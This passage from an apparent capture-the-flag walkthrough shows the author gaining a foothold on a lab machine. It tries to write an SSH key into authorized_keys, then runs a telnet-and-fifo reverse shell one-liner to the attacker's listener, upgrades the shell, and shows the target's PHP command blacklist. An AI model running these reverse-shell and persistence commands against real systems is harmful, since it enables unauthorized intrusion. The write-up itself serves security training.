 Let's see if I can add my ssh key to their authorized_keys file and connect over that way:

`echo $(echo "<MY KEY>") > /home/apaar/.ssh/authorized_keys`

No luck, we don't have write access to that file. I was able to write it over to /tmp/test.txt as a test though. so the command is working.

<br>

## System Access

I check if the **telnet** command is on the system and it is, and it's also not filtered, so let's see if we can get a reverse shell that way.

I setup a listener on my system and then use [**this reverse shell from revshells.com**](https://www.revshells.com/).

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.6.127.197 4444 0<$TF | /bin/bash 1>$TF
```

![](images/chillhack9.png)

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.83.158] 47702
whoami
www-data
hostname
ubuntu
```

A quick shell fix:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`stty raw -echo; fg`

`export TERM=xterm-256color`

`stty rows 25 columns 124`

```bash
www-data@ubuntu:/var/www/html/secret$
```

<br>

## System Enumeration

In the directory we end up in (**/secret**) we can see the **index.php** file we've been interacting with via the webshell. Inside is a list of the filtered commands for those who are curious:

```php
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```
